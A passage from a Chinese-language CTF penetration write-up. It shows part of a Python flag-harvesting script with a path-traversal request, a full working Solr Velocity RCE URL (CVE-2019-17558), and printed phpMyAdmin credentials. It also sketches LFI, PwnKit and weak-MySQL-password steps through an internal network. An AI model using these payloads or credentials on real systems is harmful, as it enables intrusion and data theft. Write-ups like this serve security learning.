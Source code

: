 ```python
        'status': 1
        }) 

        # res = s.get(target + '/blog/api/download' ,params={'fileName': '../../../../../../../../flag'})

        result = re.findall('(flag{.*?})', res.text)
        if result:
            flag = result[0]
            print('find flag',flag)
            flags.put(flag)
    except Exception:
        pass
```

## 渗透

入口点有 22, 80, 10000 端口

10000 端口是 solr, 存在 Apache Solr Velocity 注入远程命令执行漏洞 (CVE-2019-17558)

```
http://175.21.26.250:10000/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

进去后发现是 docker 环境, 没逃逸成功 ? Pwnkit 试了下好像没用 (具体忘了)

80 端口访问是 apache default page, 扫一下目录发现存在 phpmyadmin, 弱口令没试出来

后来发现 solr 里面有个 txt

```bash
solr@6d7d0aead613:/opt/solr$ cat txt
cat txt
phpmyadmin:debian-sys-maint/V5NnKd3hzziy219s
sunflower:11.0.0.33162
```

登进去之后直接拿 phpmyadmin 4.8.1 版本的 lfi 拿 shell

之后 Pwnkit 提权拿到 root, 改密码 22 端口连上去, 发现 80 端口也是 docker 环境, 但是挂载了宿主机的 /var/www 目录

之后需要根据题目给的信息, 在这台机器上手动加路由表, 才能访问 10.x 的 ip 段

`10.10.100.100` 是 Structs2

Struts2 试了一堆 payload 没成功, 最后好像是要打 log4j ? 有点抽象

`10.10.100.200` 3306 端口 mysql 弱口令 `root/123456`, 80 端口是 discuz X3.4

mysql 连上去 load file 就能拿到 flag, 但是因为是 mysql 权限写不了 webshell, udf 也写不进去, 我还以为 web 下面还有个 flag

之后捣鼓了半天的 discuz, 手动把后台和 ucenter 的密码替换登陆上去 (真的卡), 然后尝试照着一些方法去 getshell 最后还把站插挂了(
